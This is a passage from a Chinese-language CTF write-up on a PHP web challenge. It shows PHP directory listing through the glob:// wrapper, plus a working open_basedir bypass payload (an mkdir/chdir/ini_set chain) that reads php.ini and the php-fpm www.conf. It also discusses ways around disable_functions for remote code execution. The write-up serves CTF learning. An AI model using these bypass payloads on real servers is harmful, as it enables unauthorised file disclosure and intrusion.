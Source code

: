 或者我们也可以使用PHP原生类DirectoryLterator结合glob协议来列文件

```
$a = new DirectoryIterator("glob:///*");
foreach($a as $f){
    echo($f->__toString().'<br>');
}
```

效果也是一样的。

至此，我们可以构造出读取文件的Payload：

```
mkdir('ye'); 
chdir('ye');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..'); 
ini_set('open_basedir','/');
var_dump(file_get_contents('/usr/local/etc/php/php.ini'));

```

但我们无法读取到根目录下的/flag，不过在php.ini中我们看到了加载了一个so扩展

![image-20241108200915904](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411082009943.png)

**预期题解是Pwn这个so然后来获取flag**，pwn师傅没空

除了这个我们也可以想到绕过disable__function直接rce，我们可以通过挂载而已so的方式来突破disable_function来实现rce，挂载so有两种方法

- dl()函数挂载 (dl被ban)
- 直接写入配置文件的extension中

但是这里好像都不可行，所以只能另寻思路。
		我们还可以在`/usr/local/etc/`目录下看到FPM的文件`php-fpm.conf`

![image-20241108201534921](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202411082015023.png)	

因此可以确定这个道题使用php-fpm，也可以通过读取/proc/self/cmdline看到FPM的进程 

![image-20241108202425967](C:/Users/11/AppData/Roaming/Typora/typora-user-images/image-20241108202425967.png)

接下来，我们尝试读取fpm的配置文件：

```bash
mkdir('ye'); 
chdir('ye');
ini_set('open_basedir','..');
chdir('..');
chdir('..');
chdir('..');
chdir('..'); 
ini_set('open_basedir','/');
var_dump(file_get_contents('/usr/local/etc/php-fpm.d/www.conf'));
```
